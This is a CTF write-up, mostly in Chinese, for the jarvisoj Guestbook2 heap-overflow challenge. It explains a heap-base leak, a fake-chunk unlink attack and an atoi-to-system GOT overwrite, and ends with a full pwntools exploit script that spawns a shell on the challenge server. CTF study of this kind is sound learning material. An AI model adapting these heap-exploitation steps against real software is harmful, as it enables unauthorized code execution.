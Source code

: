 ```yaml
---
layout:     post
title:      jarvisoj Guestbook2
author:     wooy0ung
tags: 		linux elf pwn
category:  	ctf
---
```



### 0x00 introduction

```
Problem Address:
https://www.jarvisoj.com

Problem Description:
听说guestbook1很快被人日穿了，出题人表示不服，于是对Guestbook进行了升级，自以为写的很科学~~大家一起鉴定一下。

Download:
https://dn.jarvisoj.com/challengefiles/guestbook2.rar.f90369a6de48cbfe84ea32b232ad9630

Address:
nc pwn.jarvisoj.com 9879
```
<!-- more -->


### 0x01 分析

一个简单的留言板工具，是比较典型的堆溢出题

![](/assets/img/ctf/pwn/2017-07-31-jarvisoj-guestbook2/0x00.png)

最初malloc一个大的chunk，用来记录所有note的信息

![](/assets/img/ctf/pwn/2017-07-31-jarvisoj-guestbook2/0x01.png)

这个chunk的大致结构

```
pre_size       -16       存放pre_size
size           -8        存放size
---------------------------------------------------------------
内容           地址       作用分析
---------------------------------------------------------------
256             0    	最大note数量
0               8    	当前note数量
0              16    	1 (此处是否有note)
0              24    	note的长度
0              32    	str (需要劫持的指针,完成内存leak和got覆写)
```

检查delete方法

![](/assets/img/ctf/pwn/2017-07-31-jarvisoj-guestbook2/0x02.png)

检查edit方法

![](/assets/img/ctf/pwn/2017-07-31-jarvisoj-guestbook2/0x03.png)


### 0x02 leak heap_base

先创建4个chunk，大小自动对齐到0x80，free掉chunk0、chunk2，加入bin双向链表

![](/assets/img/ctf/pwn/2017-07-31-jarvisoj-guestbook2/0x04.png)

现在chunk0->bk指向chunk2，覆盖掉chunk0的fd指针，用list方法打印出chunk0的bk指针

```
for i in range(4):
	add_post('a')

del_post(0)
del_post(2)

add_post('12345678')

leak_data = getpost(0)[8:]
heap_addr = u64((leak_data.ljust(8, "\x00"))[:8])
heap_base = heap_addr - 0x1940  # 0x1810 + (0x10+0x80) * 2 + 0x10 = 0x1940 
chunk_addr = heap_base + 0x30
```

注意chunk_addr中的0x30是大chunk的str指针相对于起始地址的偏移, str是内存中指向chunk0的指针


### 0x03 unlink & double free

```
FD = P->fd;
BK = P->bk;
FD->bk = BK;
BK->fd = FD;
```

构造fake chunk通过 FD->bk = BK->fd = P 检验，free(3)触发unlink，fake chunk向后合并

```
size0 = 0x80+0x90+0x90
add_post(p64(0)+p64(size0+1)+p64(chunk_addr-0x18)+p64(chunk_addr-0x10))
add_post("/bin/sh\x00") # chunk1
add_post("a"*0x80+p64(size0)+p64(0x90)+"a"*0x80+(p64(0)+p64(0x91)+"a"*0x80)*2)
del_post(3)
```

由于BK->fd = FD(*str = &str - 0x18), 最后 chunk0 指向 &str - 0x18，也即指向大chunk中的cur_num


### 0x04 leak system_addr

edit chunk0 覆盖大chunk的cur_num、note_exist、note_len、str(覆盖成atoi@got)

```
edit_post(0, p64(100)+p64(1)+p64(8)+p64(atoi_got))
leak_data = get_post('0. ')
atoi_addr = u64(leak_data[:-1].ljust(0x8,'\x00'))
system_addr = atoi_addr - libc.symbols['atoi'] + libc.symbols['system']
success("atoi: "+hex(atoi_addr))
success("system: "+hex(system_addr))
```

leak出atoi_addr，计算得到system_addr，写入system_addr

```
edit_post(0, p64(system_addr))
Io.sendline("$0")
Io.interactive()
```


### 0x05 完整的exploit

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

Io = remote('pwn.jarvisoj.com', 9879)
#Io = process('./guestbook2')
bin = ELF('./guestbook2')
libc = ELF('./libc.so')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def add_post(content):
	Io.sendline('2')
	Io.recvuntil('Length')
	Io.sendline(str(len(content)))
	Io.recvuntil('Enter')
	Io.send(content)
def edit_post(idx,content):
	Io.sendline('3')
	Io.recvuntil('number')
	Io.sendline(str(idx))
	Io.recvuntil('Length')
	Io.sendline(str(len(content)))
	Io.recvuntil('Enter')
	Io.send(content)
def del_post(idx):
	Io.sendline('4')
	Io.recvuntil('number')
	Io.sendline(str(idx))
def get_post(content):
  	Io.recvuntil('Your choice: ')
  	Io.sendline('1')
  	Io.recvuntil(content)
  	return Io.recvuntil('\n')

#-----------------init-------------------
for i in range(4):
	add_post('a')

del_post(0)
del_post(2)

add_post('12345678')

#--------------leak heap_base-------------
leak_data = get_post('12345678')
heap_addr = u64(leak_data[:-1].ljust(0x8,'\x00'))
heap_base = heap_addr - 0x1940
chunk_addr = heap_base + 0x30
success("heap_base: "+hex(heap_base))

del_post(0)
del_post(1)
del_post(3)

#-----------------unlink------------------
size0 = 0x80+0x90+0x90
add_post(p64(0)+p64(size0+1)+p64(chunk_addr-0x18)+p64(chunk_addr-0x10))
add_post("/bin/sh\x00")
add_post("a"*0x80+p64(size0)+p64(0x90)+"a"*0x80+(p64(0)+p64(0x91)+"a"*0x80)*2)
del_post(3)

#------------leak system_addr-------------
atoi_got = bin.got['atoi']


edit_post(0, p64(100)+p64(1)+p64(8)+p64(atoi_got))
leak_data = get_post('0. ')
atoi_addr = u64(leak_data[:-1].ljust(0x8,'\x00'))
system_addr = atoi_addr - libc.symbols['atoi'] + libc.symbols['system']
success("atoi: "+hex(atoi_addr))
success("system: "+hex(system_addr))

#-------------------pwn--------------------
edit_post(0, p64(system_addr))
Io.sendline("$0")
Io.interactive()
```

getshell

![](/assets/img/ctf/pwn/2017-07-31-jarvisoj-guestbook2/0x05.png)